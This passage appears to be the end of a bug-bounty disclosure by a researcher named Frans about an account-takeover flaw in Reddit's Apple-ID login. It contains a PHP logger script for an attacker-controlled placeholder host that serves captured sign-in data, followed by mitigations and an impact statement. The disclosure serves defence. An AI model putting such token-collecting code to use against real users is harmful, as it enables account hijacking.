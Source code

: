 And `https://USE-YOUR-OWN-LOGGER/reddit/parse.php` looks like this:

```php
<?php
header("Access-Control-Allow-Origin: *");
header("Content-type: text/plain");

$key = @$_GET['q'];
if (!$key || !preg_match('#^[a-f0-9]{48}$#', $key)) { die; }
$data = explode("\n", file_get_contents('r.log'));
foreach($data as $line) {
	if (strpos($line, $key) !== false) {
		echo $line . "\n";
		die;
	}
}
```


# Mitigation

1. Remove fragment part when location is sent to www.redditmedia.com or any other party.
2. Restrict your `redirect_uri` of Apple-ID to something that does not load a domain that could run arbitrary javascript.

## Impact

Attacker can sign in as the victim. There's minimal interaction needed, only one click.

This took quite some time to get built :) I hope you'll like it!

Regards,
Frans

## Attachments
- Screen_Shot_2022-05-12_at_15.52.53.png
- reddit-hijack.mp4
- Screen_Shot_2022-05-12_at_15.52.59.png
- Screen_Shot_2022-05-12_at_15.54.23.png
- Screen_Shot_2022-05-12_at_16.00.54.png
- Screen_Shot_2022-05-12_at_16.00.32.png
